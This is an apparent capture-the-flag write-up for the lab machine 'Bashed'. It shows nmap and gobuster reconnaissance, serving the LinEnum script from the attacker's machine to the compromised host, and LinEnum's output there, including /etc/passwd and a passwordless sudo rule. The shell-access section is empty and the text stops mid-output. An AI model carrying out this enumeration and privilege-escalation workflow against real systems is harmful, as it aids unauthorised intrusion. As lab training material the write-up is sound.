

#### Bashed

- [Attacker Info](#attacker-info)
- [Nmap Scan](#nmap-scan)
- [Web Enumeration](#web-enumeration)
- [Shell Access](#shell-access)
- [Privilege Escalation](#privilege-escalation)
- [Reverse Shell](#reverse-shell)

###### Attacker Info

```sh
root@kali:~/bashed# ip addr
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 00:0c:29:b0:a9:19 brd ff:ff:ff:ff:ff:ff
    inet 192.168.1.8/24 brd 192.168.1.255 scope global dynamic noprefixroute eth0
       valid_lft 86320sec preferred_lft 86320sec
    inet6 fe80::20c:29ff:feb0:a919/64 scope link noprefixroute
       valid_lft forever preferred_lft forever
3: tun0: <POINTOPOINT,MULTICAST,NOARP,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UNKNOWN group default qlen 100
    link/none
    inet 10.10.14.16/23 brd 10.10.15.255 scope global tun0
       valid_lft forever preferred_lft forever
    inet6 dead:beef:2::100e/64 scope global
       valid_lft forever preferred_lft forever
    inet6 fe80::5a88:95bc:9e40:c286/64 scope link stable-privacy
       valid_lft forever preferred_lft forever
root@kali:~/bashed#
```

###### Nmap Scan

```sh
root@kali:~/bashed# nmap -sC -sV -oA bashed.nmap 10.10.10.68
Starting Nmap 7.70 ( https://nmap.org ) at 2018-06-04 03:12 EDT
Nmap scan report for 10.10.10.68
Host is up (0.19s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.14 seconds
root@kali:~/bashed#
```

`Apache httpd 2.4.18` &rarr; `Ubuntu Xenial (16.04LTS)`


###### Web Enumeration


```sh
root@kali:~/bashed# gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.68 -t 30

Gobuster v1.4.1              OJ Reeves (@TheColonial)
=====================================================
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.10.68/
[+] Threads      : 30
[+] Wordlist     : /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes : 200,204,301,302,307
=====================================================
/images (Status: 301)
/uploads (Status: 301)
/php (Status: 301)
/css (Status: 301)
/dev (Status: 301)
/js (Status: 301)
/fonts (Status: 301)
```




###### Shell Access


###### Privilege Escalation

```sh
root@kali:~/bashed# wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
--2018-06-04 03:31:08--  https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 151.101.0.133, 151.101.64.133, 151.101.128.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|151.101.0.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 43488 (42K) [text/plain]
Saving to: ‘LinEnum.sh’

LinEnum.sh                                         100%[================================================================================================================>]  42.47K  --.-KB/s    in 0.02s

2018-06-04 03:31:08 (2.01 MB/s) - ‘LinEnum.sh’ saved [43488/43488]

root@kali:~/bashed#
```

```sh
root@kali:~/bashed# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
10.10.10.68 - - [04/Jun/2018 03:33:04] "GET /LinEnum.sh HTTP/1.1" 200 -
```


```sh
www-data@bashed
:/dev/shm# bash LinEnum.sh


#########################################################
# Local Linux Enumeration & Privilege Escalation Script #
#########################################################
# www.rebootuser.com
# version 0.9

[-] Debug Info
[+] Thorough tests = Disabled (SUID/GUID checks will not be perfomed!)


Scan started at:
Mon Jun 4 00:33:50 PDT 2018


### SYSTEM ##############################################
[-] Kernel information:
Linux bashed 4.4.0-62-generic #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux


[-] Kernel information (continued):
Linux version 4.4.0-62-generic (buildd@lcy01-30) (gcc version 5.4.0 20160609 (Ubuntu 5.4.0-6ubuntu1~16.04.4) ) #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017


[-] Specific release information:
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=16.04
DISTRIB_CODENAME=xenial
DISTRIB_DESCRIPTION="Ubuntu 16.04.2 LTS"
NAME="Ubuntu"
VERSION="16.04.2 LTS (Xenial Xerus)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 16.04.2 LTS"
VERSION_ID="16.04"
HOME_URL="http://www.ubuntu.com/"
SUPPORT_URL="http://help.ubuntu.com/"
BUG_REPORT_URL="http://bugs.launchpad.net/ubuntu/"
VERSION_CODENAME=xenial
UBUNTU_CODENAME=xenial


[-] Hostname:
bashed


### USER/GROUP ##########################################
[-] Current user/group info:
uid=33(www-data) gid=33(www-data) groups=33(www-data)


[-] Users that have previously logged onto the system:
Username Port From Latest
arrexel tty1 Sat Dec 23 20:20:46 -0800 2017


[-] Who else is logged on:
00:33:50 up 5:05, 0 users, load average: 0.00, 0.00, 0.00
USER TTY FROM LOGIN@ IDLE JCPU PCPU WHAT


[-] Group memberships:
uid=0(root) gid=0(root) groups=0(root)
uid=1(daemon) gid=1(daemon) groups=1(daemon)
uid=2(bin) gid=2(bin) groups=2(bin)
uid=3(sys) gid=3(sys) groups=3(sys)
uid=4(sync) gid=65534(nogroup) groups=65534(nogroup)
uid=5(games) gid=60(games) groups=60(games)
uid=6(man) gid=12(man) groups=12(man)
uid=7(lp) gid=7(lp) groups=7(lp)
uid=8(mail) gid=8(mail) groups=8(mail)
uid=9(news) gid=9(news) groups=9(news)
uid=10(uucp) gid=10(uucp) groups=10(uucp)
uid=13(proxy) gid=13(proxy) groups=13(proxy)
uid=33(www-data) gid=33(www-data) groups=33(www-data)
uid=34(backup) gid=34(backup) groups=34(backup)
uid=38(list) gid=38(list) groups=38(list)
uid=39(irc) gid=39(irc) groups=39(irc)
uid=41(gnats) gid=41(gnats) groups=41(gnats)
uid=65534(nobody) gid=65534(nogroup) groups=65534(nogroup)
uid=100(systemd-timesync) gid=102(systemd-timesync) groups=102(systemd-timesync)
uid=101(systemd-network) gid=103(systemd-network) groups=103(systemd-network)
uid=102(systemd-resolve) gid=104(systemd-resolve) groups=104(systemd-resolve)
uid=103(systemd-bus-proxy) gid=105(systemd-bus-proxy) groups=105(systemd-bus-proxy)
uid=104(syslog) gid=108(syslog) groups=108(syslog),4(adm)
uid=105(_apt) gid=65534(nogroup) groups=65534(nogroup)
uid=106(messagebus) gid=110(messagebus) groups=110(messagebus)
uid=107(uuidd) gid=111(uuidd) groups=111(uuidd)
uid=1000(arrexel) gid=1000(arrexel) groups=1000(arrexel),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),114(lpadmin),115(sambashare)
uid=1001(scriptmanager) gid=1001(scriptmanager) groups=1001(scriptmanager)


[-] It looks like we have some admin users:
uid=104(syslog) gid=108(syslog) groups=108(syslog),4(adm)
uid=1000(arrexel) gid=1000(arrexel) groups=1000(arrexel),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),114(lpadmin),115(sambashare)


[-] Contents of /etc/passwd:
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
arrexel:x:1000:1000:arrexel,,,:/home/arrexel:/bin/bash
scriptmanager:x:1001:1001:,,,:/home/scriptmanager:/bin/bash


[-] Super user account(s):
root


[+] We can sudo without supplying a password!
Matching Defaults entries for www-data on bashed:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
(scriptmanager : scriptmanager) NOPASSWD: ALL


[-] Accounts that have recently used sudo:
/home/arrexel/.sudo_as_admin_successful


[-] Are permissions on /home directories lax:
total 16K
drwxr-xr-x 4 root root 4.0K Dec 4 13:53 .
drwxr-xr-x 23 root root 4.0K Dec 4 13:02 ..
drwxr-xr-x 4 arrexel arrexel 4.0K Dec 4 12:52 arrexel
drwxr-xr-x 3 scriptmanager scriptmanager 4.0K Dec 4 17:08 scriptmanager


### ENVIRONMENTAL #######################################
[-] Environment information:
APACHE_PID_FILE=/var/run/apache2/apache2.pid
APACHE_RUN_USER=www-data
APACHE_LOG_DIR=/var/log/apache2
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
PWD=/dev/shm
APACHE_RUN_GROUP=www-data
LANG=C
SHLVL=1
APACHE_LOCK_DIR=/var/lock/apache2
APACHE_RUN_DIR=/var/run/apache2
_=/usr/bin/env


[-] Path information:
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin


[-] Available shells:
# /etc/shells: valid login shells
/bin/sh
/bin/dash
/bin/bash
/bin/rbash


[-] Current umask value:
0022
u=rwx,g=rx,o=rx


[-] umask value as specified in /etc/login.defs:
UMASK 022


[-] Password and storage information:
PASS_MAX_DAYS 99999
PASS_MIN_DAYS 0
PASS_WARN_AGE 7
ENCRYPT_METHOD SHA512


### JOBS/TASKS ##########################################
[-] Cron jobs:
-rw-r--r-- 1 root root 722 Apr 5 2016 /etc/crontab

/etc/cron.d:
total 20
drwxr-xr-x 2 root root 4096 Dec 4 12:08 .
drwxr-xr-x 89 root root 4096 Dec 4 17:09 ..
-rw-r--r-- 1 root root 102 Apr 5 2016 .placeholder
-rw-r--r-- 1 root root 670 Mar 1 2016 php
-rw-r--r-- 1 root root 191 Dec 4 11:16 popularity-contest

/etc/cron.daily:
total 48
drwxr-xr-x 2 root root 4096 Dec 4 11:20 .
drwxr-xr-x 89 root root 4096 Dec 4 17:09 ..
-rw-r--r-- 1 root root 102 Apr 5 2016 .placeholder
-rwxr-xr-x 1 root root 539 Apr 5 2016 apache2
-rwxr-xr-x 1 root root 1474 Jan 17 2017 apt-compat
-rwxr-xr-x 1 root root 355 May 22 2012 bsdmainutils
-rwxr-xr-x 1 root root 1597 Nov 26 2015 dpkg
-rwxr-xr-x 1 root root 372 May 5 2015 logrotate
-rwxr-xr-x 1 root root 1293 Nov 6 2015 man-db
-rwxr-xr-x 1 root root 435 Nov 17 2014 mlocate
-rwxr-xr-x 1 root root 249 Nov 12 2015 passwd
-rwxr-xr-x 1 root root 3449 Feb 26 2016 popularity-contest

/etc/cron.hourly:
total 12
drwxr-xr-x 2 root root 4096 Dec 4 11:13 .
drwxr-xr-x 89 root root 4096 Dec 4 17:09 ..
-rw-r--r-- 1 root root 102 Apr 5 2016 .placeholder

/etc/cron.monthly:
total 12
drwxr-xr-x 2 root root 4096 Dec 4 11:13 .
drwxr-xr-x 89 root root 4096 Dec 4 17:09 ..
-rw-r--r-- 1 root root 102 Apr 5 2016 .placeholder

/etc/cron.weekly:
total 20
drwxr-xr-x 2 root root 4096 Dec 4 11:16 .
drwxr-xr-x 89 root root 4096 Dec 4 17:09 ..
-rw-r--r-- 1 root root 102 Apr 5 2016 .placeholder
-rwxr-xr-x 1 root root 86 Apr 13 2016 fstrim
-rwxr-xr-x 1 root root 771 Nov 6 2015 man-db


[-] Crontab contents:
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user command
17 * * * * root cd / && run-parts --report /etc/cron.hourly
25 6 * * * root test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6 * * 7 root test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6 1 * * root test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#


[-] Anything interesting in /var/spool/cron/crontabs:
total 0
d????????? ? ? ? ? ? .
d????????? ? ? ? ? ? ..
-????????? ? ? ? ? ? root


### NETWORKING ##########################################
[-] Network and IP info:
ens33 Link encap:Ethernet HWaddr 00:50:56:8f:cb:aa
inet addr:10.10.10.68 Bcast:10.10.10.255 Mask:255.255.255.255
inet6 addr: dead:beef::250:56ff:fe8f:cbaa/64 Scope:Global
inet6 addr: fe80::250:56ff:fe8f:cbaa/64 Scope:Link
UP BROADCAST RUNNING MULTICAST MTU:1500 Metric:1
RX packets:140670 errors:0 dropped:21 overruns:0 frame:0
TX packets:91595 errors:0 dropped:0 overruns:0 carrier:0
collisions:0 txqueuelen:1000
RX bytes:11838305 (11.8 MB) TX bytes:17648477 (17.6 MB)

lo Link encap:Local Loopback
inet addr:127.0.0.1 Mask:255.0.0.0
inet6 addr: ::1/128 Scope:Host
UP LOOPBACK RUNNING MTU:65536 Metric:1
RX packets:97800 errors:0 dropped:0 overruns:0 frame:0
TX packets:97800 errors:0 dropped:0 overruns:0 carrier:0
collisions:0 txqueuelen:1
RX bytes:7254200 (7.2 MB) TX bytes:7254200 (7.2 MB)


[-] ARP history:
? (10.10.10.2) at 00:50:56:8f:64:fe [ether] on ens33


[-] Default route:
default 10.10.10.2 0.0.0.0 UG 0 0 0 ens33


[-] Listening TCP:
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address Foreign Address State PID/Program name
tcp6 0 0 :::80 :::* LISTEN -
tcp6 0 0 10.10.10.68:80 10.10.14.16:60840 ESTABLISHED -
tcp6 0 0 10.10.10.68:80 10.10.14.16:60838 TIME_WAIT -
tcp6 0 0 10.10.10.68:80 10.10.14.16:60836 TIME_WAIT -
tcp6 0 0 10.10.10.68:80 10.10.14.16:60834 TIME_WAIT -


[-] Listening UDP:
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address Foreign Address State PID/Program name


### SERVICES #############################################
[-] Running processes:
USER PID %CPU %MEM VSZ RSS TTY STAT START TIME COMMAND
root 1 0.0 0.5 37836 5868 ? Ss Jun03 0:03 /sbin/init noprompt
root 2 0.0 0.0 0 0 ? S Jun03 0:00 [kthreadd]
root 3 0.0 0.0 0 0 ? S Jun03 0:00 [ksoftirqd/0]
root 5 0.0 0.0 0 0 ? S< Jun03 0:00 [kworker/0:0H]
root 7 0.0 0.0 0 0 ? S Jun03 0:00 [rcu_sched]
root 8 0.0 0.0 0 0 ? S Jun03 0:00 [rcu_bh]
root 9 0.0 0.0 0 0 ? S Jun03 0:00 [migration/0]
root 10 0.0 0.0 0 0 ? S Jun03 0:00 [watchdog/0]
root 11 0.0 0.0 0 0 ? S Jun03 0:00 [kdevtmpfs]
root 12 0.0 0.0 0 0 ? S< Jun03 0:00 [netns]
root 13 0.0 0.0 0 0 ? S< Jun03 0:00 [perf]
root 14 0.0 0.0 0 0 ? S Jun03 0:00 [khungtaskd]
root 15 0.0 0.0 0 0 ? S< Jun03 0:00 [writeback]
root 16 0.0 0.0 0 0 ? SN Jun03 0:00 [ksmd]
root 17 0.0 0.0 0 0 ? SN Jun03 0:00 [khugepaged]
root 18 0.0 0.0 0 0 ? S< Jun03 0:00 [crypto]
root 19 0.0 0.0 0 0 ? S< Jun03 0:00 [kintegrityd]
root 20 0.0 0.0 0 0 ? S< Jun03 0:00 [bioset]
root 21 0.0 0.0 0 0 ? S< Jun03 0:00 [kblockd]
root 22 0.0 0.0 0 0 ? S< Jun03 0:00 [ata_sff]
root 23 0.0 0.0 0 0 ? S< Jun03 0:00 [md]
root 24 0.0 0.0 0 0 ? S< Jun03 0:00 [devfreq_wq]
root 25 0.0 0.0 0 0 ? S Jun03 0:01 [kworker/u256:1]
root 28 0.0 0.0 0 0 ? S Jun03 0:00 [kswapd0]
root 29 0.0 0.0 0 0 ? S< Jun03 0:00 [vmstat]
root 30 0.0 0.0 0 0 ? S Jun03 0:00 [fsnotify_mark]
root 31 0.0 0.0 0 0 ? S Jun03 0:00 [ecryptfs-kthrea]
root 47 0.0 0.0 0 0 ? S< Jun03 0:00 [kthrotld]
root 48 0.0 0.0 0 0 ? S< Jun03 0:00 [acpi_thermal_pm]
root 49 0.0 0.0 0 0 ? S< Jun03 0:00 [bioset]
root 50 0.0 0.0 0 0 ? S< Jun03 0:00 [bioset]
root 51 0.0 0.0 0 0 ? S< Jun03 0:00 [bioset]
root 52 0.0 0.0 0 0 ? S< Jun03 0:00 [bioset]
root 53 0.0 0.0 0 0 ? S< Jun03 0:00 [bioset]
root 54 0.0 0.0 0 0 ? S< Jun03 0:00 [bioset]
root 55 0.0 0.0 0 0 ? S< Jun03 0:00 [bioset]
root 56 0.0 0.0 0 0 ? S< Jun03 0:00 [bioset]
root 57 0.0 0.0 0 0 ? S< Jun03 0:00 [bioset]
root 58 0.0 0.0 0 0 ? S< Jun03 0:00 [bioset]
root 59 0.0 0.0 0 0 ? S< Jun03 0:00 [bioset]
root 60 0.0 0.0 0 0 ? S< Jun03 0:00 [bioset]
root 61 0.0 0.0 0 0 ? S< Jun03 0:00 [bioset]
root 62 0.0 0.0 0 0 ? S< Jun03 0:00 [bioset]
root 63 0.0 0.0 0 0 ? S< Jun03 0:00 [bioset]
root 64 0.0 0.0 0 0 ? S< Jun03 0:00 [bioset]
root 65 0.0 0.0 0 0 ? S< Jun03 0:00 [bioset]
root 66 0.0 0.0 0 0 ? S< Jun03 0:00 [bioset]
root 67 0.0 0.0 0 0 ? S< Jun03 0:00 [bioset]
root 68 0.0 0.0 0 0 ? S< Jun03 0:00 [bioset]
root 69 0.0 0.0 0 0 ? S< Jun03 0:00 [bioset]
root 70 0.0 0.0 0 0 ? S< Jun03 0:00 [bioset]
root 71 0.0 0.0 0 0 ? S< Jun03 0:00 [bioset]
root 72 0.0 0.0 0 0 ? S< Jun03 0:00 [bioset]
root 73 0.0 0.0 0 0 ? S Jun03 0:00 [scsi_eh_0]
root 74 0.0 0.0 0 0 ? S< Jun03 0:00 [scsi_tmf_0]
root 75 0.0 0.0 0 0 ? S Jun03 0:00 [scsi_eh_1]
root 76 0.0 0.0 0 0 ? S< Jun03 0:00 [scsi_tmf_1]
root 84 0.0 0.0 0 0 ? S< Jun03 0:00 [ipv6_addrconf]
root 95 0.0 0.0 0 0 ? S< Jun03 0:00 [bioset]
root 98 0.0 0.0 0 0 ? S< Jun03 0:00 [deferwq]
root 99 0.0 0.0 0 0 ? S< Jun03 0:00 [charger_manager]
root 100 0.0 0.0 0 0 ? S Jun03 0:00 [kworker/u256:4]
root 147 0.0 0.0 0 0 ? S Jun03 0:00 [scsi_eh_2]
root 148 0.0 0.0 0 0 ? S< Jun03 0:00 [scsi_tmf_2]
root 150 0.0 0.0 0 0 ? S< Jun03 0:00 [vmw_pvscsi_wq_2]
root 151 0.0 0.0 0 0 ? S< Jun03 0:00 [bioset]
root 159 0.0 0.0 0 0 ? S< Jun03 0:00 [kpsmoused]
root 160 0.0 0.0 0 0 ? S< Jun03 0:00 [ttm_swap]
root 191 0.0 0.0 0 0 ? S Jun03 0:00 [jbd2/sda1-8]
root 192 0.0 0.0 0 0 ? S< Jun03 0:00 [ext4-rsv-conver]
root 225 0.0 0.0 0 0 ? S< Jun03 0:00 [kworker/0:1H]
root 238 0.0 0.2 28332 2964 ? Ss Jun03 0:00 /lib/systemd/systemd-journald
root 244 0.0 0.0 0 0 ? S Jun03 0:00 [kworker/0:5]
root 253 0.0 0.0 0 0 ? S Jun03 0:00 [kauditd]
root 263 0.0 0.0 93088 268 ? Ssl Jun03 0:00 vmware-vmblock-fuse /run/vmblock-fuse -o rw,subtype=vmware-vmblock,default_permissions,allow_other,dev,suid
root 289 0.0 0.3 44260 3840 ? Ss Jun03 0:00 /lib/systemd/systemd-udevd
systemd+ 412 0.0 0.2 100324 2596 ? Ssl Jun03 0:01 /lib/systemd/systemd-timesyncd
root 588 0.0 1.0 111996 10100 ? Ss Jun03 0:13 /usr/bin/vmtoolsd
syslog 589 0.0 0.3 256396 3308 ? Ssl Jun03 0:00 /usr/sbin/rsyslogd -n
root 592 0.0 0.6 275864 6212 ? Ssl Jun03 0:00 /usr/lib/accountsservice/accounts-daemon
root 610 0.0 0.3 29008 3068 ? Ss Jun03 0:00 /usr/sbin/cron -f
root 617 0.0 0.1 20100 1268 ? Ss Jun03 0:00 /lib/systemd/systemd-logind
message+ 619 0.0 0.3 42900 3852 ? Ss Jun03 0:00 /usr/bin/dbus-daemon --system --address=systemd: --nofork --nopidfile --systemd-activation
root 652 0.0 0.1 15940 1808 tty1 Ss+ Jun03 0:00 /sbin/agetty --noclear tty1 linux
root 752 0.0 2.4 255896 24404 ? Ss Jun03 0:00 /usr/sbin/apache2 -k start
root 858 0.0 0.0 0 0 ? S Jun03 0:08 [kworker/0:0]
www-data 2153 0.0 0.7 255968 7652 ? S 00:27 0:00 /usr/sbin/apache2 -k start
www-data 2177 0.0 1.1 256204 11444 ? S 00:28 0:00 /usr/sbin/apache2 -k start
www-data 2193 0.0 1.1 256204 11636 ? S 00:28 0:00 /usr/sbin/apache2 -k start
www-data 2194 0.0 1.1 256372 11724 ? S 00:28 0:00 /usr/sbin/apache2 -k start
www-data 2195 0.0 1.1 256204 11636 ? S 00:28 0:00 /usr/sbin/apache2 -k start
www-data 2199 0.0 1.1 256372 11724 ? S 00:29 0:00 /usr/sbin/apache2 -k start
www-data 2201 0.0 1.0 256204 10128 ? S 00:29 0:00 /usr/sbin/apache2 -k start
www-data 2203 0.0 1.1 256204 11444 ? S 00:29 0:00 /usr/sbin/apache2 -k start
www-data 2205 0.0 1.1 256204 11444 ? S 00:29 0:00 /usr/sbin/apache2 -k start
www-data 2206 0.0 1.1 256204 11444 ? S 00:29 0:00 /usr/sbin/apache2 -k start
www-data 2242 0.0 0.0 4508 780 ? S 00:33 0:00 sh -c cd /dev/shm; bash LinEnum.sh 2>&1
www-data 2243 0.0 0.3 19012 3916 ? S 00:33 0:00 bash LinEnum.sh
www-data 2244 0.0 0.3 19044 3440 ? S 00:33 0:00 bash LinEnum.sh
www-data 2245 0.0 0.0 4384 712 ? S 00:33 0:00 tee -a
www-data 2443 0.0 0.2 19044 2872 ? S 00:33 0:00 bash LinEnum.sh
www-data 2444 0.0 0.2 34424 2916 ? R 00:33 0:00 ps aux


[-] Process binaries and associated permissions (from above list):
-rwxr-xr-x 1 root root 326224 Jan 18 2017 /lib/systemd/systemd-journald
-rwxr-xr-x 1 root root 618520 Jan 18 2017 /lib/systemd/systemd-logind
-rwxr-xr-x 1 root root 141904 Jan 18 2017 /lib/systemd/systemd-timesyncd
-rwxr-xr-x 1 root root 453240 Jan 18 2017 /lib/systemd/systemd-udevd
-rwxr-xr-x 1 root root 44104 Dec 16 2016 /sbin/agetty
lrwxrwxrwx 1 root root 20 Dec 4 11:13 /sbin/init -> /lib/systemd/systemd
-rwxr-xr-x 1 root root 224208 Jan 12 2017 /usr/bin/dbus-daemon
-rwxr-xr-x 1 root root 44528 Feb 9 2017 /usr/bin/vmtoolsd
-rwxr-xr-x 1 root root 164928 Nov 3 2016 /usr/lib/accountsservice/accounts-daemon
-rwxr-xr-x 1 root root 662496 Sep 18 2017 /usr/sbin/apache2
-rwxr-xr-x 1 root root 44472 Apr 5 2016 /usr/sbin/cron
-rwxr-xr-x 1 root root 599328 Apr 5 2016 /usr/sbin/rsyslogd


[-] /etc/init.d/ binary permissions:
total 252
drwxr-xr-x 2 root root 4096 Dec 4 11:20 .
drwxr-xr-x 89 root root 4096 Dec 4 17:09 ..
-rw-r--r-- 1 root root 1355 Dec 4 11:20 .depend.boot
-rw-r--r-- 1 root root 471 Dec 4 11:20 .depend.start
-rw-r--r-- 1 root root 667 Dec 4 11:20 .depend.stop
-rw-r--r-- 1 root root 2427 Jan 19 2016 README
-rwxr-xr-x 1 root root 2210 Apr 5 2016 apache-htcacheclean
-rwxr-xr-x 1 root root 8087 Apr 5 2016 apache2
-rwxr-xr-x 1 root root 6250 Oct 4 2016 apparmor
-rwxr-xr-x 1 root root 1275 Jan 19 2016 bootmisc.sh
-rwxr-xr-x 1 root root 3807 Jan 19 2016 checkfs.sh
-rwxr-xr-x 1 root root 1098 Jan 19 2016 checkroot-bootclean.sh
-rwxr-xr-x 1 root root 9353 Jan 19 2016 checkroot.sh
-rwxr-xr-x 1 root root 1343 Apr 4 2016 console-setup
-rwxr-xr-x 1 root root 3049 Apr 5 2016 cron
-rwxr-xr-x 1 root root 2813 Dec 1 2015 dbus
-rwxr-xr-x 1 root root 1105 Mar 15 2016 grub-common
-rwxr-xr-x 1 root root 1336 Jan 19 2016 halt
-rwxr-xr-x 1 root root 1423 Jan 19 2016 hostname.sh
-rwxr-xr-x 1 root root 3809 Mar 12 2016 hwclock.sh
-rwxr-xr-x 1 root root 2372 Apr 11 2016 irqbalance
-rwxr-xr-x 1 root root 1804 Apr 4 2016 keyboard-setup
-rwxr-xr-x 1 root root 1300 Jan 19 2016 killprocs
-rwxr-xr-x 1 root root 2087 Dec 20 2015 kmod
-rwxr-xr-x 1 root root 703 Jan 19 2016 mountall-bootclean.sh
-rwxr-xr-x 1 root root 2301 Jan 19 2016 mountall.sh
-rwxr-xr-x 1 root root 1461 Jan 19 2016 mountdevsubfs.sh
-rwxr-xr-x 1 root root 1564 Jan 19 2016 mountkernfs.sh
-rwxr-xr-x 1 root root 711 Jan 19 2016 mountnfs-bootclean.sh
-rwxr-xr-x 1 root root 2456 Jan 19 2016 mountnfs.sh
-rwxr-xr-x 1 root root 4771 Jul 19 2015 networking
-rwxr-xr-x 1 root root 1581 Oct 15 2015 ondemand
-rwxr-xr-x 1 root root 1578 Sep 17 2016 open-vm-tools
-rwxr-xr-x 1 root root 1366 Nov 15 2015 plymouth
-rwxr-xr-x 1 root root 752 Nov 15 2015 plymouth-log
-rwxr-xr-x 1 root root 1192 Sep 5 2015 procps
-rwxr-xr-x 1 root root 6366 Jan 19 2016 rc
-rwxr-xr-x 1 root root 820 Jan 19 2016 rc.local
-rwxr-xr-x 1 root root 117 Jan 19 2016 rcS
-rwxr-xr-x 1 root root 661 Jan 19 2016 reboot
-rwxr-xr-x 1 root root 4149 Nov 23 2015 resolvconf
-rwxr-xr-x 1 root root 4355 Jul 10 2014 rsync
-rwxr-xr-x 1 root root 2796 Feb 3 2016 rsyslog
